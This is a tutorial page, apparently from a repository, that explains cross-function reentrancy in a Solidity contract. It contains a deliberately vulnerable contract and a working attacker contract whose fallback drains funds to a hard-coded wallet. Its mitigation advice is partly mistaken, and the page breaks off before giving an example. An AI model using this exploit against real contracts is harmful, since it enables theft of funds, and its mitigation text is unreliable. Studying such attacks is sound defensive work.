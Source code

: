 # Cross-Function Reentrancy

<hr>

`Cross-function reentrancy` can occur when two or more functions in a program share the same state variable and one or more of these functions update the variable in an insecure manner. This creates a situation where one function can be called multiple times by another function before the state changes are propagated through the program, causing unexpected behavior.

## Vulnerable Contract

<hr>

```sol
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.19;

abstract contract ReentrancyGuard {
    bool internal locked;

    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
}

contract VulnerableContract is ReentrancyGuard {
    mapping (address => uint) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function transfer(address _to, uint _amount) external {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        
        balances[_to] += _amount;
        balances[msg.sender] -= _amount;
    }

    function withdraw() external noReentrant {  
        require(balances[msg.sender] > 0, "Insufficient balance");

        (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(success, "Transfer Failed");

        balances[msg.sender] = 0;
    }

    function getUserBalance(address _user) public view returns (uint256) {
        return balances[_user];
    }

    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## Understanding the Contract

<hr>

**1. VulnerableContract:** Allows users to deposit, transfer and withdraw funds. It inherits from an ReentrancyGuard contract that implements a locking mechanism to prevent reentrancy attacks.

**2. ReentrancyGuard contract:** It uses a boolean flag called locked to ensure that no function can be re-entered while it is still executing. The noReentrant modifier defined in the ReentrancyGuard contract checks that the locked flag is false before executing the function and sets it to true. After the function has executed, it sets the locked flag back to false.

**3. deposit function:** Allows users to add funds to their account by sending Ether to the contract.

**4. transfer function:** Allows users to transfer funds from their account to another account.
  
**5. withdraw function:** It uses the call function to transfer funds to the user's address and checks whether the transfer was successful before updating the user's balance. If the transfer fails, the user's balance remains in the contract.

**6. balances:** A private mapping that maps user addresses to their account balance.

**7. getUserBalance function:** Allows users to query their current account balance.

**8. getBalance function:** Returns the current balance of the contract.

### Identifying the vulnerability

Code flow is like in withdraw function:

invoke withdraw => transfer funds => fallback function => transfer function => balance to zero.


The withdraw() function in the above code facilitates the transfer of the entire balance of the caller to their external account using the call() function. However, this call() function has the potential to trigger the fallback function of a malicious contract, giving the attacker an opportunity to run arbitrary code while within the context of the withdraw() function. 

If the fallback function of the malicious contract calls the transfer() function of the victim contract simultaneously, it could potentially transferring the funds out of their own account before setting the balance to zero in the balances state variable. Lets see in brief.

<center><img class="image" src="./assets/images/cross-function-re-entrancy.jpg"></center>
<b><center class="img-label">Vulnerability</center></b>

Step-by-step explanation of how a cross function reentrancy attack could be carried out in this Vulnerable Contract:

**1. Calling withdraw function from attacker contract:** An attacker creates a malicious contract with a fallback function that calls the `withdraw()` function of the victim contract repeatedly.

**2.** The attacker sends a request to the victim contract to execute the withdraw() function.

**3.** The victim contract begins executing the withdraw() function and checks if the caller has a positive balance.

**4.** The attacker's malicious contract triggers the fallback function and calls the transfer() function of the victim contract, while the whole execution of the withdraw function is still in progress (Note it contract is update sender balance to zero after trasfer the function so its pending state).

**5.** The attacker's contract needs to provide parameters, such as the amount to transfer and the destination address, to call the transfer() function. The amount can be less than or equal to the balance of the attacker's contract, and the destination address can be the attacker's wallet address.

**6.** The victim contract deducts the amount from the sender's (ATTACKER CONTRACT) address.

**7.** The victim contract adds the amount to the attacker's wallet address. 

**8.** Eventually, the execution state returns to the withdraw() function, and the attacker's contract's balance is set to zero.

## Examining the POC or Attacker Contract

<hr>

```sol
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.19;

interface IVulnerableContract {
    function deposit() external payable;
    function transfer(address _to, uint _amount) external;
    function withdraw() external;
    function getUserBalance(address _user) external view returns (uint);
} 

contract AttackerContract {
    IVulnerableContract public immutable vulnerableContract;
    address public walletAddress = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;

    constructor(IVulnerableContract _vulnerableContract) {
        vulnerableContract = _vulnerableContract;
    }

    fallback() external payable {
        if (address(vulnerableContract).balance >= 1 ether) {
            vulnerableContract.transfer(
                walletAddress, 
                vulnerableContract.getUserBalance(address(this))
            );
        }
    }

    function initiateAttack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        vulnerableContract.deposit{value: 1 ether}();
        vulnerableContract.withdraw();
    }

    function getBalance() external view returns (uint) {
        return address(this).balance;
    }
}
```

## Drain Whole funds
<!-- <center><img class="image" src="./assets/images/cross function re-entrancy.jpg"></center>
<b><center class="img-label">Output</center></b> -->

## mitigatation:

To mitigate this vulnerability, you can add a check at the beginning of the withdraw() function to ensure that the contract's balance is greater than or equal to the amount being withdrawn. Additionally, you can use the nonReentrant modifier to prevent reentrancy attacks.

Here's an example implementation: